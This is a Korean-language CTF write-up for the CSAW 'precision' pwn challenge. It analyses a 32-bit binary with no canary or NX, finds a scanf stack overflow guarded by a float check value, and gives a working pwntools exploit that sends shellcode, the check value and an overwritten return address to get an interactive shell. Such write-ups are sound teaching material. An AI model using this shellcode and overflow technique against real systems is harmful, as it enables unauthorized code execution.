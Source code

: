 ============================================================================================================
[csaw] precision
============================================================================================================


Prior information
============================================================================================================

프로그램은 스택 카나리와 nx는 안걸려 있고, 문제에서 버퍼 위치를 찍어 줍니다. 

.. code-block:: console

    $ file ./precision   
    ./precision: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), 
    dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]
    =929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped

    $ ./checksec.sh --file precision
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   precision

    $ ./precision
    Buff: 0xff9f7718
    joizel
    Got joizel

|

Source Analysis
============================================================================================================

먼저 IDA Hexray를 이용하여 해당 프로그램의 소스를 확인해보면 다음과 같습니다.

.. code-block:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
        int v4; // [sp+18h] [bp-88h]@1
        double v5; // [sp+98h] [bp-8h]@1

        v5 = 64.33333;
        setvbuf(stdout, 0, 2, 0);
        printf("Buff: %p\n", &v4);
        __isoc99_scanf("%s", &v4);  // overflow
        if ( 64.33333 != v5 )
        {
            puts("Nope");
            exit(1);
        }
        return printf(str, &v4);
    }

|

Segmentation fault
============================================================================================================

__isoc99_scanf에서 128바이트 이상 값이 입력될 경우 버퍼 오버플로우가 발생되는 것을 확인할 수 있습니다.

.. code-block:: console

    $ python -c 'print "A"*127' | ./precision
    Buff: 0xff96b918
    Got AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAA

    $ python -c 'print "A"*128' | ./precision
    Buff: 0xfff6c378
    Nope


중간에 v5값만 맞춰서 넣어 주면 리턴 주소값을 변경할 수 있습니다.

v5값은 IDA Hexray에서 dbl(floating point data) 형식으로 64.33333이 정의 되어 있는데 해당 값을 dword 형식으로 변환하면 해당 값이 0x475a31a5 40501555 인것을 확인할 수 있습니다. 

.. image:: ../_images/pwn-01.png
    :align: center

|

exploit
============================================================================================================

공격 코드는 다음과 같습니다.

.. code-block:: python

    from pwn import *

    #r = remote("54.173.98.115", 1259)
    r = process("./precision")
    recv = r.recvline()

    buf_addr = int(recv.split(" ")[1][2:], 16)
    print "%d [%s]" % (buf_addr, hex(buf_addr))

    # len(shellcode) = 74
    shellcode = "\xeb\x25\x5e\x31\xc9\xb1\x1e\x80\x3e\x07\x7c\x05\x80\x2e\x07\xeb\x11\x31\xdb\x31\xd2\xb3\x07\xb2\xff\x66\x42\x2a\x1e\x66\x29\xda\x88\x16\x46\xe2\xe2\xeb\x05\xe8\xd6\xff\xff\xff\x38\xc7\x57\x6f\x69\x68\x7a\x6f\x6f\x69\x70\x75\x36\x6f\x36\x36\x36\x36\x90\xea\x57\x90\xe9\x5a\x90\xe8\xb7\x12\xd4\x87" 

    # 128(dummy + shellcode) + v5 + 12(dummy) + ret(buf_addr)
    # 
    r.sendline("A"*(128 - len(shellcode)) + shellcode + p32(0x475a31a5) + p32(0x40501555) + "EEEECCCCDDDD" + p32(buf_addr))
    #r.recv()
    r.interactive() 

    #r.sendline("cat flag.txt")
    print r.recv()

    #r.sendline("cat /lib32/libc.so.6")

    #x = ""
    #while r.can_recv(5):
        #x += r.recv()

    #with open("libc", "wb") as f:
        #f.write(x)


해당 공격 코드 실행 결과는 아래와 같다.

.. code-block:: console

    $ python exploit.py 

    [+] Started program './precision'
    4294231000 [0xfff4c3d8]
    [*] Switching to interactive mode
    $ 
    